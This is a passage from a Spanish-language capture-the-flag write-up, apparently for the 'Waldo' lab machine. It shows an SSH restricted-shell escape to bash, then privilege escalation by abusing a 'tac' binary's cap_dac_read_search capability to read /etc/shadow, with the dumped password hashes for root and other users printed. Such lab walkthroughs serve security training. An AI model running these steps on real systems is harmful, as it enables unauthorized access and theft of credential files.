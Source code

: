 ```bash
waldo:~/.ssh$ ssh -i .monitor monitor@localhost whoami
monitor
```
Vemos que nos interpreta el comando. Sustituimos whoami por bash y logramos conectarnos con una bash plenamente funcinonal

```bash
waldo:~/.ssh$ ssh -i .monitor monitor@localhost bash
whoami
monitor
```
### Escalada Privilegios

* * *

Listamos privilegios de sudo y grupos sin econtrar nada interesante. Buscando por capabilities si vemos que tenemos un binario `tac` que tiene la capabilitie `cap_dac_read_search+ei`. Esta capabilitie nos permite usar el binario `tac` para poder leer cualquier archivo privilegiado del sistema

```bash
# PoC

monitor@waldo:~$ cat /etc/shadow
cat: /etc/shadow: Permission denied

monitor@waldo:~$ tac /etc/shadow
app-dev:$6$RQ4VUGfn$6WYq54MO9AvNFMW.FCRekOBPYJXuI02AqR5lYlwN5/eylTlTWmHlLLvJ4FDp4Nt0A/AX2b3zdrvyEfwf8vSh3/:17654:0:99999:7:::
monitor:$6$IXQ7fATd$RsOewky58ltAbfdjYBHFk9/q5bRcUplLnM9ZHKknVB46smsKn4msCOXDpyYU6xw43rGqJl5fG3sMmEaKhJAJt/:17654:0:99999:7:::
steve:$6$MmXo3me9$zPPUertAwnJYQM8GUya1rzCTKGr/AHtjSG2n3faSeupCCBjoaknUz2YUDStZtvUGWuXonFqXKZF8pXCkezJ.Q.:17653:0:99999:7:::
sshd:*:17653:0:99999:7:::
messagebus:*:17653:0:99999:7:::
avahi-autoipd:*:17653:0:99999:7:::
_apt:*:17653:0:99999:7:::
systemd-bus-proxy:*:17653:0:99999:7:::
systemd-resolve:*:17653:0:99999:7:::
systemd-network:*:17653:0:99999:7:::
systemd-timesync:*:17653:0:99999:7:::
nobody:*:17653:0:99999:7:::
gnats:*:17653:0:99999:7:::
irc:*:17653:0:99999:7:::
list:*:17653:0:99999:7:::
backup:*:17653:0:99999:7:::
www-data:*:17653:0:99999:7:::
proxy:*:17653:0:99999:7:::
uucp:*:17653:0:99999:7:::
news:*:17653:0:99999:7:::
mail:*:17653:0:99999:7:::
lp:*:17653:0:99999:7:::
man:*:17653:0:99999:7:::
games:*:17653:0:99999:7:::
sync:*:17653:0:99999:7:::
sys:*:17653:0:99999:7:::
bin:*:17653:0:99999:7:::
daemon:*:17653:0:99999:7:::
root:$6$tRIbOmog$v7fPb8FKIT0QryKrm7RstojMs.ZXi4xxHz2Uix9lsw52eWtsURc9dwWMOyt4Gpd6QLtVtDnU1NO5KE5gF48r8.:17654:0:99999:7:::
```
